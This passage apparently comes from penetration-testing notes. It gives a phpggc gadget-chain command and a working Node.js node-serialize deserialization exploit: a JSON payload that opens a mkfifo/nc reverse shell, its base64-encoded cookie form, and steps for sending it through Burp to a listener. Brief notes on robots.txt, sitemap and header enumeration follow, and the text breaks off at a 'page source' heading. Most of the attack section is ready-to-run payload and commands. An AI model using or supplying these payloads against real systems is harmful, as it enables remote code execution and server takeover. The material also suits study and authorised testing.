 ```
./phpggc monolog/rce1 assert 'phpinfo()'
```

#### Node JS Deserialization

In node.js, the \[unserialize()] function is used to perform deserialization in node-serialize module. When an untrusted input is passed to it, the chance of RCE increases tremendously. So what happenes is when you send the cookie is sent as a JSON-base64 encoded value, it gets deserialized by \[unserilizae()] and then executed. To exploit this kind of vulnerability, we will need to build a JSON payload that achieves RCE and encode it in base64. The below payload is a JSON payload that achieves RCE. Make sure to change both the ip and port when copying this payload.

```node
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Next step is encoding the above payload as base64

```
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIGlwIHBvcnQgPi90bXAvZicsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9
```

Next we need to send this base64 as a value for the cookie using BurpSuite or any other http proxy as the figure shows an example below !\[\[node-js-deserialize.jpg]] Now before you send the request, make sure to create a listener. For this kind of attack, create a listener using the below script

```
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
```

and run it as below

```
$ python nodejsshell.py your-ip listening-port
```

and then you can send the request and you should receive a shell.

### Content Enumeration

#### Robots.txt

The robots.txt file contains information about which pages crawlers are allowed to index. This can reveal pages not seen when browing normally.

#### Sitemap.xml

It contains a map of the website content using URLs. It lists also URLs of old content

#### HTTP Headers

Interacting with http headers can reveal information about the webserver version, php version if any and other useful details that you can use to search for an exploit

#### page source
